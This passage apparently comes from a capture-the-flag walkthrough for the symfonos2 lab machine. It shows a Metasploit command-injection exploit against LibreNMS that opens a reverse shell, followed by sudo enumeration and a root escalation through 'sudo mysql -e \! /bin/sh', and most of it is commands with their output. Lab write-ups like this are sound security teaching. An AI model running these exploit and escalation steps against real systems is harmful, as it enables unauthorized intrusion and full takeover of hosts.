 ```bash
msf6 exploit(linux/http/librenms_addhost_cmd_inject) > run

[*] Started reverse TCP double handler on 192.168.34.138:4444 
[*] Successfully logged into LibreNMS. Storing credentials...
[+] Successfully added device with hostname vKtdAtfdi
[*] Accepted the first client connection...
[*] Accepted the second client connection...
[*] Command: echo YmfFtsGkJTr9mMMB;
[*] Writing to socket A
[*] Writing to socket B
[*] Reading from sockets...
[*] Reading from socket A
[*] A: "YmfFtsGkJTr9mMMB\r\n"
[+] Successfully deleted device with hostname vKtdAtfdi and id #1
[*] Matching...
[*] B is input...
[*] Command shell session 1 opened (192.168.34.138:4444 -> 192.168.34.142:32906) at 2021-07-04 02:25:56 -0400

python -c "import pty;pty.spawn('/bin/bash')"
cronus@symfonos2:/opt/librenms/html$ id
uid=1001(cronus) gid=1001(cronus) groups=1001(cronus),999(librenms)
```

### 11. Enumerate from user
Not much enumeration needed here either. First command ran shows the way.
```bash
cronus@symfonos2:/opt/librenms/html$ sudo -l
Matching Defaults entries for cronus on symfonos2:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User cronus may run the following commands on symfonos2:
    (root) NOPASSWD: /usr/bin/mysql
```
Because it can be ran as the superuser without a password, MySQL can be used to privesc.

### 12. Escalate to root
Spawn a shell within mysql to get to root.
```bash
cronus@symfonos2:/opt/librenms/html$ sudo mysql -e '\! /bin/sh'
# whoami
root
```
